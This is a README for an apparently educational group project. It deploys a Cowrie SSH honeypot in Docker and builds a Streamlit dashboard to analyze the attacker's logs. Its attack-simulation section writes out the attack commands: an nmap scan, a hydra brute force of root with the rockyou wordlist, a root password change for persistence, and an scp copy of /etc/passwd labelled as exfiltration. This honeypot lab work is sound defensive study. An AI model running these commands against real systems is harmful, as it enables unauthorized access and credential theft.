

# Cowrie Honeypot & Custom Log Analyzer


## Project Overview
For this group project, we simulated an internal network breach scenario.

* **Attacker:** [@iliasszrq](https://github.com/iliasszrq)
* **Defender:** [@ZTMY0](https://github.com/ZTMY0)

**I** deployed a **Cowrie SSH Honeypot** inside a Docker container and isolated it on a private **ZeroTier** network. My partner acted as the **Attacker** to breach the system, while I acted as the **Defender**, focusing on infrastructure, log ingestion, and forensic analysis.

**Note on Tool Selection:**
* **ELK Stack:** We initially attempted to use Elasticsearch for logging, but it consumed >4GB RAM. I replaced it with a **Python log parser** and a **Streamlit dashboard** for visualization.
*  We debated using **Wireshark** and **Fail2Ban** but deemed them unnecessary for this specific simulation but they can be a further addition in this project later on.

---

##  Defense Findings

### 1. Brute Force Analytics
The dashboard visualizing the volume of the dictionary attack. You can see the specific wordlists used against the `root` user.


### 2. Executed Timeline
The honeypot successfully logged the commands the attacker ran *after* guessing the password (e.g., `whoami`, `wget`, `uname`).


---

##  Attack Simulation
*Tools used: Nmap, Hydra*

**S1: Reconnaissance**
Scanning the private ZeroTier subnet to find the SSH port (mapped to 2222).
```bash
kali@kali:~$ nmap -Pn -p 2222 --open 192.168.192.0/24

Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) )
Nmap scan report for 192.168.192.41
Host is up (0.018s latency).

PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1
MAC Address: 5E:E8:09:58:14:4A (Unknown)

Nmap done: 256 IP addresses (2 hosts up) scanned in 5.19 seconds
```


**S2 : Exploitation**
```bash
# Brute Force
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.192.41 -s 2222
```
```bash
# Persistence
kali@kali:~$ ssh -p 2222 root@192.168.192.41
root@192.168.192.41's password:
The programs included with the Debian GNU/Linux system are free software.
root@srv04:~# passwd
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
root@srv04:~#
```
```bash
# Data Exfiltration
kali@kali:~$ scp -P 2222 root@192.168.192.41:/etc/passwd ./stolen_passwords.txt
root@192.168.192.41's password: 
passwd                                       100%  868   108.4KB/s   00:00
```
---
## Setup
**Honeypot**
```bash
docker-compose -f infrastructure/docker-compose.yml up -d

# Check Container Status
docker ps
```
**Dashboard**
```bash
python3 -m venv myenv
source myenv/bin/activate
---

# Dependencies Installation
pip install -r requirements.txt

# Launch
python3 -m streamlit run src/log_analyzer.py
```

---
## References & Acknowledgements

* **Cowrie Honeypot:** Official documentation and repository.
    * [https://github.com/cowrie/cowrie](https://github.com/cowrie/cowrie)
* **Streamlit:** Python framework used for the SIEM dashboard.
    * [https://docs.streamlit.io/](https://docs.streamlit.io/)
* **ZeroTier:** for network isolation.
    * [https://www.zerotier.com/](https://www.zerotier.com/)
* **Kali Linux Tools:** Nmap and Hydra documentation.
    * [https://nmap.org/](https://nmap.org/)
